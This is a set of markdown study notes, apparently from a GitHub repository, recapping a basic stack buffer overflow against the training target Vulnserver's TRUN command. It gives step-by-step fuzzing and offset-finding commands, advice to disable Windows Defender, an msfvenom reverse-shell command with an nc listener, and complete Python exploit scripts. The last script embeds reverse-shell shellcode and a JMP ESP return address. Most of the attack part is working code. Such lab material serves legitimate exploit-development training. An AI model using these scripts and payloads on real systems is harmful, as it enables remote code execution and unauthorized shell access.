



# Buffer Overflow (Basic)

**[Back To Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

⚠️ **IMPORTANT NOTE:** This is not a tutorial write-up on how to use the different tools you'll need to accomplish  a **BOF** and on how to use the needed tools like the ***Immunity Debugger*** and the alikes. These are quick notes to be able to have a quick recap if you get stuck or just want to refresh your Buffer Owerflow knowledge. 

For the full tutorial and lectures on BOF it is highly recommended to take the **PEH** course from **[TCM-SECURITY](https://academy.tcm-sec.com/)**.

## Things you'll need

* **You can find all the necesarry files in the `scripts` folder.**
* need a Windows machine on a VM (get it for free from Google: Microsoft Evaluation Center)
* download and install **Immunity Debugger** (goes on the Win machine): **[Download Link](https://debugger.immunityinc.com/ID_register.py)** and here's the **[Main Website](https://www.immunityinc.com/products/debugger/)**
* download from Github: **[mona](https://github.com/corelan/mona)** and put it in the 
* kali of course
* scripts from the **`./scripts`** folder

## Quick Visual Recap

* In the Stack we are overflowing the buffer space to reach the **EIP**
* We can use the **EIP** to point into directions that we instruct




## Steps Involved

1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Generating Shellcode 
7. Root

## Spiking

* disable Windows Defender overall (Real Time Protection OFF)
* We need to run Immunity Debugger as Admin
* Run your vulnerable server as Admin as well (You can get one from Vulnserver if needed) I'll use **Vulnserver** as an example from now on.
* let's connect to our server from kali: `nc <vulnserver's IP> <PORT>`
* Spike will help to find which command is vulnerable
* If we can overflow it and it crashes it's vulnerable
* We'll need to use `generic_send_tcp` from kali and our spike script

### Spike Script Example: stats.spk using the ***STATS*** command

```
$_readline();
$_string("STATS ");
$_string_variable("0");
```

* we will update this script for all the different commands that we had acces to when connecting to Vulnserver with nc
* whichever crashes we'll focus on that command
* **in these notes we'll assume that we found the TRUN command and it's vulnerable**
* when TRUN spike crashes the servers make sure you check out how the server recieved the command and use it like that in your python script that will come into play later on. In this example it was: `TRUN /.:/`
* **EBP shows 41414141 which is hex for A**


## Fuzzing

* it's like spiking but now that we now which command is vulnerable we're going to attack that specific command
* if you crashed it attach Vulnserver back and restart the service (little play button)

### fuzzing.py

* ⚠️ This script is a bit different from what was shown during the course, but it's more up to date and is for Python3
* change: **prefix** to TRUN /.:/ (in this example) and IP, PORT of Vulnserver

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.239.130"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* don't forget to `chmod +x fuzzing.py`
* once we run this script we'll know the program crashes at what bytes (in this example it crashes at 2700 bytes)
* we round it up, we crashed at around 3000 bytes
* let's find the **EIP** value

## Finding The Offset

* using metasploit pattern create with -l (for length) and our rounded up bytes where the server crashed which was 3000
* `/usr/share/metasploit-framework/tools/exploit/patter_create.rb -l 3000`

The following output will be sent to Vulnserver:


* copy the output and modify the script where `string = prefix + "A" * 100` to `string = prefix + "<metasploit output>"`
* this time when the server crashes we'll see the value on the **EIP** and we'll use metasploit again with that specific patter offset value
* for the sake of example let's say the EIP value is: `368F4337`
* in metasploit:
* `/user/share/metasploit-framework/tools/exploit/patter_create.rb -l 3000 -q 368F4337`
* output will show the exact match for offset (in this example it's 2003 bytes)
* it tells us the at the exactly 2003 bytes we can control the EIP, now let's overwrite it

## Overwriting the EIP

* continuing with the ***exploit.py*** script
* `offset = 2003`
* `overflow = "A" * offset + "B" * 4` after running the script we should see that the value for the EIP as 424242 which is "B" in hex code


## Finding Bad Chars

**[Bad Char Generator](https://github.com/cytopia/badchars)**
(Just copy the bad chars and paste it into the script)

* paste bad chars to `retn = "<bad chars here>"`
* by default `\x00` the null byte acts up so remove from  `retn`
* check **ESP hexdump**
* **Make note of the bad chars!**



* identify bad characters, everything that's out of order is a bad char
* **every time you have consecutive bad chars** we only care for the first one, **however** I would take out both since the exploit will still work (at least on this basic level)



* we are looking for a ***.dll*** or something similar inside of the program that has no memory protections, meaning no DEP no ASLR no SAVE SEH
* **[mona modules](https://github.com/corelan/mona)** helps us to achieve this
* copy ***mona modules*** into `This PC: Program Files: Program (x86): Immunity INC: Immunity Debugger: PyCommands`


* in Immunity Debugger in the command bar on the bottom: `!mona modules`
* in the popup window we want to check for all false in protection settings in something that is attached to Vulnserver


### Generating the Jump Code

* now we need to find the jump code, go to kali terminal and `locate nasm_shell`
* `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
* **essentially we're trying to convert Assembly language into hex code**
* `JMP ESP` and you'll see this output: `FFE4`
* back to mona: `!mona find -s "\xffe4" -m essfunc.dll`
* we're looking for the return addresses


* our found return address is **625011af**
* modify in exploit.py: `overflow = "A" * offset
* modify in exploit.py: `retn = "\xaf\x11\x50\x62"`
* so now we're gonna have the EIP via JUMP CODE and then the JUMP CODE will go into malicious code
* if you noticed it we are using the Jump Code in reverse because when we talk about x86 architecture we're doing something called **Little Endian** format. The x86 architecture actually stores the low order byte at the lowest address and the high order byte at the highest address, so we have to put our code in reverse order.
* this will throw the same error as before but it will also throw a jump point and we can use Immunity Debugger to catch this

### Catching The Jump Code


* we should see the following output, meaning that we actually jumped to the ESP


* select it and hit **F2** (it will turn it blue)
* with that we just set a break point so it will not execute any further, it will break and wait for further instructions from us and that's what we want
* we're not gonna jump to anywhere and that doesn't matter, all we need to know is that our break point works
* to test it hit play in Immunity Debugger and run the exploit.py script. The program will stop and break at our break point
* we control the EIP now, we need to generate some shell code and point directly to it and we're in the home run!


## Gaining Shell Code And Gaining Root

* we're gonna use ***msfvenom*** to generate our shell code
* `msfvenom -p windows/shell_reverse_tcp LHOST=<kali IP> LPORT=<kali port> EXITFUNC=thread -f c -a x86 -b "\x00"`
* `p` for payload, `-f` for file type (export it in C), `-a` for architecture `b` and for bad bytes (from your notes you made earlier)
* copy generated shell code into our exploit.py script (we don't need the `:` at the end)
* always note the ***payload size***, it's not gonna matter now but could matter later in a more advanced exploit development


* paste it into `payload = (<msfvenom output>)
* now we need to add some nobs (padding), update exploit.py: `padding = "\x90" * 32`
* if we didn't have padding it is possible that our shell code wouldn't work, we might not get code execution on the computer because something interfered here so we added padding to keep it safe (you might have to play around with the `* 32` value
* fire up netcat on the port you selected in msfvenom: `nc -lnvp <PORT>`
* run Vulnserver ***as Admin***
* run exploit.py and see your shell coming through on your nc listener

# Additional Notes on Python3 and Mona

* you may need to do byte encoding


## Updated Fuzz script

```
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.4.104',9999))

		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

### Updated Finding The Offset Script

```
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

## Updated Control The EIP

```
#!/usr/bin/python3

import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

## Mona

* create a folder called `mona` in `C:\`
* declare in Immunity Debugger that you want ***mona*** to save data in that folder
* `!mona config -set workingfolder c:\mona`
* now we can generate a bad characters list with mona
* `!mona bytearray -cpb "\x00"` generating a payload list for us that excludes the null byte
* if you go to your mona folder you'll see that it puts a nice text file in it
* you can copy it and paste it into your script, don't need to go out and look for bad chars on websites
* mona also creates a .bin file which is handy when we compare this array to find bad chars


## Update Bad Chars

* `badchars = <output from mona>`

```
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13"
"\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39"
"\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
"\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72"
"\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98"
"\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab"
"\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe"
"\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
* now you don't have to review the bad chars manually, instead:
* `!mona compare -f c:\mona\bytearray.bin -a 010AF9C8` where  ***010AF9C8*** is the ***ESP*** address


* you'll see the results in a pop up window


## Updated The Jump Address With Mona

* `!mona modules` when we idenitfied the modules that had their values set to False, instead we could just find the jump address with mona
* `!mona jmp -r ESP -m "essfunc.dll"`


## SOMETIMES the Payload Encoder in python3 does not work as we wanted to

* **the solution is** manually byte encode it like this:

```
#!/usr/bin/python3

import sys, socket
from time import sleep

overflow = (b"\xb8\x5c\x1e\x35\x96\xd9\xc6\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x1a\xd7\x63\xe3\xcb\x95"
b"\x8c\x1b\x0c\xfa\x05\xfe\x3d\x3a\x71\x8b\x6e\x8a\xf1\xd9\x82"
b"\x61\x57\xc9\x11\x07\x70\xfe\x92\xa2\xa6\x31\x22\x9e\x9b\x50"
b"\xa0\xdd\xcf\xb2\x99\x2d\x02\xb3\xde\x50\xef\xe1\xb7\x1f\x42"
b"\x15\xb3\x6a\x5f\x9e\x8f\x7b\xe7\x43\x47\x7d\xc6\xd2\xd3\x24"
b"\xc8\xd5\x30\x5d\x41\xcd\x55\x58\x1b\x66\xad\x16\x9a\xae\xff"
b"\xd7\x31\x8f\xcf\x25\x4b\xc8\xe8\xd5\x3e\x20\x0b\x6b\x39\xf7"
b"\x71\xb7\xcc\xe3\xd2\x3c\x76\xcf\xe3\x91\xe1\x84\xe8\x5e\x65"
b"\xc2\xec\x61\xaa\x79\x08\xe9\x4d\xad\x98\xa9\x69\x69\xc0\x6a"
b"\x13\x28\xac\xdd\x2c\x2a\x0f\x81\x88\x21\xa2\xd6\xa0\x68\xab"
b"\x1b\x89\x92\x2b\x34\x9a\xe1\x19\x9b\x30\x6d\x12\x54\x9f\x6a"
b"\x55\x4f\x67\xe4\xa8\x70\x98\x2d\x6f\x24\xc8\x45\x46\x45\x83"
b"\x95\x67\x90\x04\xc5\xc7\x4b\xe5\xb5\xa7\x3b\x8d\xdf\x27\x63"
b"\xad\xe0\xed\x0c\x44\x1b\x66\xf3\x31\x27\x31\x9b\x43\x27\xac"
b"\x07\xcd\xc1\xa4\xa7\x9b\x5a\x51\x51\x86\x10\xc0\x9e\x1c\x5d"
b"\xc2\x15\x93\xa2\x8d\xdd\xde\xb0\x7a\x2e\x95\xea\x2d\x31\x03"
b"\x82\xb2\xa0\xc8\x52\xbc\xd8\x46\x05\xe9\x2f\x9f\xc3\x07\x09"
b"\x09\xf1\xd5\xcf\x72\xb1\x01\x2c\x7c\x38\xc7\x08\x5a\x2a\x11"
b"\x90\xe6\x1e\xcd\xc7\xb0\xc8\xab\xb1\x72\xa2\x65\x6d\xdd\x22"
b"\xf3\x5d\xde\x34\xfc\x8b\xa8\xd8\x4d\x62\xed\xe7\x62\xe2\xf9"
b"\x90\x9e\x92\x06\x4b\x1b\xb2\xe4\x59\x56\x5b\xb1\x08\xdb\x06"
b"\x42\xe7\x18\x3f\xc1\x0d\xe1\xc4\xd9\x64\xe4\x81\x5d\x95\x94"
b"\x9a\x0b\x99\x0b\x9a\x19")

shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = b"TRUN /.:/" + shellcode

	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
